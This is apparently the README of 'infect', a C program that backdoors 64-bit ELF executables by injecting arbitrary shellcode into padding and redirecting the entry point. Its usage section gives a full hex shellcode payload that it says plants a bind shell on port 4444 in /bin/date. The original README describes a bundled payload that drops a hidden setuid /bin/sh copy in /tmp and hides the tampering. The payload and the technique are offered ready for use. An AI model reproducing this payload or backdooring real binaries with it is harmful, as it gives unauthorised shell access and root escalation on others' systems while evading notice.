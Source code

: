 infect
------

> Simple C program to backdoor ELF executables

This is a simple program, written in C, to add arbitrary shellcode to 64bit ELF
executables. This is a heavily modified version of `infect` from the ELFKickers
project from Muppet Labs.

Usage
-----
```
Usage: ./infect
  -f: Path to 64bit ELF binary to infect with the payload.
  -p: Hex encoding of the payload.
  -v: Be verbose.
  -l: Only show how much room is available for a payload.

Example:
./infect -f /bin/date -p 6a2958996a025f6a015e0f05489752c \
704240200115c4889e66a105a6a31580f056a32580f054831f66a2b580f \
0548976a035e48ffce6a21580f0575f66a3b589948bb2f62696e2f73680 \
0534889e752574889e60f05

Infects /bin/date with a bind shell on port 4444
```

Build
-----

This project uses `make` to build.

Original README
---------------
infect provides a very simple example of how an ELF executable can be
subverted to compromise security. (Of course, this is not a very
practical approach if compromising security is really your goal, since
it requires already having write access to someone else's executables.
The true purpose here is simply to illustrate one technique for
surgically altering ELF files.)

Given a 64-bit ELF executable file, this program inserts into it a
snippet of malicious code. When the modified executable is next
invoked, the added code creates a file named "/tmp/.~", a 32-bit ELF
executable that simply invokes /bin/sh, and has the set-user-ID bit
set. The added code then jumps to the original program so that the
modified executable shows no obvious sign of having been tampered
with.

infect takes advantage of the fact that most ELF executables are laid
out with a significant chunk of unused padding bytes immediately
following the executable segment. infect simply extends the size of
the executable segment to include enough extra bytes to hold the new
code, and then changes the executable's entry point.

The malicious code provided with infect is very simple, and only
requires 116 bytes. (58 of those bytes are for the generated ELF
executable.) Further analysis of this assembly code is left as an
exercise for the reader.

License
-------
- Copyright (c) 2011 Brian Raiter <breadbox@muppetlabs.com>
- Copyright (c) 2018 <brimstone@the.narro.ws>

License GPLv2+: GNU GPL version 2 or later. This is free software: you
are free to change and redistribute it. There is NO WARRANTY, to the
extent permitted by law.
